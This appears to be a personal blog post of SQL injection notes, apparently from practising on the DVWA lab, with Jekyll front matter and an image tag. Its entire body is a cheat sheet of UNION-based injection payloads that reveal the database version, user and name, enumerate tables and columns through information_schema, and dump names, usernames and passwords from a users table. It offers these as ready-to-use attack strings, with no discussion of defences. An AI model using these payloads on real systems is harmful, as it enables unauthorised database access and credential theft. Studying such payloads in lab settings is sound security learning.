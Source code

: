 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>
